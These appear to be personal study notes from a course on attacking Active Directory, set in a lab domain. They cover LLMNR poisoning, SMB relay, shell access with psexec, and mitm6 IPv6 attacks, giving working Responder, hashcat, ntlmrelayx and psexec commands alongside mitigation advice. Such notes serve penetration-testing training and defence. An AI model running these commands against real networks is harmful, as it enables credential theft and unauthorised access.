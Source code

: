 
- for impacket v 0.9.19 [reference](https://github.com/Dewalt-arch/pimpmykali)
## LLMNR Poisoning 
- For [reference](https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/)
- Used to identify hosts when DNS fails to do so
- Previously known as NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to   
-  `sudo responder -I eth0 -dwPv` -- this will give hash for user
- `hashcat --help | grep NTLM` -- this will give all module for NTLM in hashcat
- `hashcat -m 5600 hashes.txt /path/to/wordlist`
###### Mitigation
- To disable LLMNR and NBT-NS
	- `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Turn Off Multicast Name Resolution > enable`
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is 
	- Require Network Access Control
	- Require long and complex user passwords

## SMB Relay Attacks
- For [reference](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
- Instead of cracking hashes gathered with Responder, we can instead relay hose hashes to specific machines and potentially gain access.
- Requirement:
	- SMB signing must be **disabled** or **not enforced** on the target.
	- Relayed user credentials must be admin on machine for any any real value
- By default, SMB signing is not enabled or enforced on workstations. It is enabled or enforced on servers
- `nmap --script=smb2-security-mode -p445 IP -Pn`
- SMB Relay
	- `sudo mousepad /etc/responder/Responder.conf` SMB and HTTP off
	- `sudo responder -I eth0 -dwP`
	- Now we have to set up NTML relay
		- `ntlmrelayx.py -tf targets.txt -smb2support` or 
		- `ntlmrelayx.py -tf targets.txt -smb2support -i` -- i for interactive session 
		- after getting interactive session use `nc 127.0.0.1 1100`
		- or `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"` 
- In lab try it on user-2
###### Mitigation
- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies
- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: if Kerberos stops working, windows defaults back to NTLM
- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
	- Con: Enforcing the policy may be difficult
- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets

## Gaining Shell Access
- using psexec in msf  --- we can do this with password or hashes (NT:LM)
- `psexec.py marvel.local/pparker:'passw0rd@123'@10.0.2.14`
- `psexec.py administrator@10.0.2.14 -hashes [hashes for administrator NT:LM]`
- if psexec gets blocked you can use `wmiexec.py` or `smbexec.py`

## IPV6 Attacks
- `sudo mitm6 -d marvel.local`
- Now we have to set up NTLMrelay (after setup run mitm6 cmd)
	- `ntlmrelayx.py -6 -t ldaps://[Doman Controller IP] -wh fakewpad.marvel.local -l lootme` 
###### Mitigation
- IPV6 poisoning abuses the fact that Windows queries for an IPV6 address even in IPV4-only environments. If you do not use IPV6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPV6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPV6 (DHCPv6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPV6 (DHCPv6-Out)
- If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service.
- Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP sigining an LDAP channel binding
- Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

## Passback Attack
- [Reference](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)

## Initial Internal Attack Strategy
- Begin day with mitm6 or Responder
- Run scans to generate traffic
- If scans are taking too long, look for websites in scope (http_version)
- Look for default credentials on web logins
	- Printers
	- Jenkins
	- Etc
- Think outside the box
